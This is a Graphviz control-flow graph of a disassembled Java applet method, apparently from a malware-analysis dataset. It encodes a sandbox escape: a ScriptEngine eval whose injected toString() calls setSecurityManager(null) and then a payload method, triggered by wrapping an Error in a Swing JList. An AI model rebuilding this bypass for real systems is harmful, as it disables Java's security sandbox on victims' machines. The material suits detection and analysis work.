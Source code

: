 digraph "" {
    "r0 := @this: Func1"
    "staticget <java.lang.Boolean: java.lang.Boolean FALSE>"
    "r0 := @this: Func1"->"staticget <java.lang.Boolean: java.lang.Boolean FALSE>";
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"
    "staticget <java.lang.Boolean: java.lang.Boolean FALSE>"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "new javax.script.ScriptEngineManager"
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"allept\""
    "load.r r1"->"push \"allept\"";
    "load.r r0"
    "push \"allept\""->"load.r r0";
    "interfaceinvoke <javax.script.ScriptEngine: void put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.ScriptEngine: void put(java.lang.String,java.lang.Object)> 2";
    "ifeq load.r r0"
    "interfaceinvoke <javax.script.ScriptEngine: void put(java.lang.String,java.lang.Object)> 2"->"ifeq load.r r0";
    "ifeq load.r r0"->"staticget <java.lang.Boolean: java.lang.Boolean FALSE>";
    "staticget <java.lang.Boolean: java.lang.Boolean FALSE>"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "pop"
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"pop";
    "pop"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push 0"->"load.r r1";
    "push \"function toString(){Packages.java.lang.System.setSecurityManager(null); allept.akn();return \'aabbcc\'};function cslkt(){var imeorrr = new Error(); imeorrr.message = this; return imeorrr;}; cslkt();\""
    "load.r r1"->"push \"function toString(){Packages.java.lang.System.setSecurityManager(null); allept.akn();return \'aabbcc\'};function cslkt(){var imeorrr = new Error(); imeorrr.message = this; return imeorrr;}; cslkt();\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "push \"function toString(){Packages.java.lang.System.setSecurityManager(null); allept.akn();return \'aabbcc\'};function cslkt(){var imeorrr = new Error(); imeorrr.message = this; return imeorrr;}; cslkt();\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <Func1: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <Func1: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Func1: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <Func1: java.awt.Component add(java.awt.Component)>"->"store.r r0";
}
